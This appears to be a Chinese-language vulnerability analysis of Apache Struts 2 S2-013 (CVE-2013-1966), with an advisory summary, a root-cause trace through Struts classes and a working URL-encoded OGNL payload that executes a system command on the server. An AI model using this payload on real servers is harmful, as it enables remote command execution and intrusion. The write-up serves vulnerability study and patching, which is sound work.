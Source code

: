 # S2-013 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote command execution                                     |
| Maximum security rating | High Critical                                                |
| Recommendation          | Developers should immediately upgrade to at least [Struts 2.3.14.2](http://struts.apache.org/download.cgi#struts23141) |
| Affected Software       | Struts 2.0.0 - Struts 2.3.14.1                               |
| Reporter                | The Struts Team                                              |
| CVE Identifier          | [CVE-2013-1966](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-1966) |

## Problem

`Struts2` 标签中 ` <s:a> ` 和 ` <s:url> ` 都包含一个 `includeParams` 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：

1. none - 链接不包含请求的任意参数值（默认）
2. get - 链接只包含 GET 请求中的参数和其值
3. all - 链接包含 GET 和 POST 所有参数和其值

` <s:a> `用来显示一个超链接，当`includeParams=all`的时候，会将本次请求的GET和POST参数都放在URL的GET参数上。在放置参数的过程中会将参数进行`OGNL`渲染，造成任意命令执行漏洞。

## Environment

| Struts2 Version | struts-2.2.3           |
| --------------- | ---------------------- |
| Server          | Tomcat 9.0.34          |
| IDE             | idea 2020.1.1 ULTIMATE |

## POC

![image-20200720152355857](img/20200718101337.png)

payload:

```java
HelloWorld.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

## Debug

全局搜索`includeParams`关键字，发现有个`getIncludeParams`方法，先下个断点：

`s2-013/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/components/ComponentUrlProvider.class:73`

<img src="img/getIncludeParams.png" alt="getIncludeParams" style="zoom:150%;" />

然后进入到`beforeRenderUrl`函数中。可以看到这个函数将我们提交的恶意参数include进来：

![includeParams](img/includeParams.png)

接下来找哪里将表达式进行了解析。

继续跟进，进入`end`函数：

![end](img/end.png)

跟进`renderUrl` -> `determineActionURL` -> `buildURL` -> `buildParametersString` -> `translateAndEncode`:

![1595138319483](img/renderUrl.png)

![1595136376298](img/buildUrl.png)

<img src="img/buildParametersString.png" alt="1595136451346" style="zoom:150%;" />

![1595136519253](img/translateAndEncode.png)

一直跟进translate函数，直到TextParseUtil类的translateVariables方法中，通过stack.findValue方法触发OGNL表达式执行。

`s2-013/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/util/TextParseUtil.class:90`

![1595136693874](img/stackFindValue.png)



## Reference

- [S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)
- [S2-013/S2-014 远程代码执行漏洞]( https://github.com/vulhub/vulhub/blob/master/struts2/s2-013/README.zh-cn.md )

